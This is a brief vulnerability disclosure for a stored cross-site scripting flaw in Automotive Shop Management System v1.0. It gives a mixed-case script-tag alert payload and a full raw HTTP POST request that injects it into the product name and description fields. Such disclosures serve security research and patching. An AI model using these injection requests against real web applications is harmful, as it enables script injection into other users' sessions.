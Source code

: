 # Automotive Shop Management System v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /asms/classes/Master.php?f=save_product

Vulnerability location: /asms/classes/Master.php?f=save_product, name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /asms/classes/Master.php?f=save_product HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------83960212638164850273547100712
Content-Length: 835
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/asms/admin/?page=products
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="id"

5
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="name"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="description"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="price"

1100.00
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="status"

1
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------83960212638164850273547100712--

```

![](https://github.com/mikeccltt/automotive/blob/main/automotive-shop-management-system/xss.gif?raw=true)
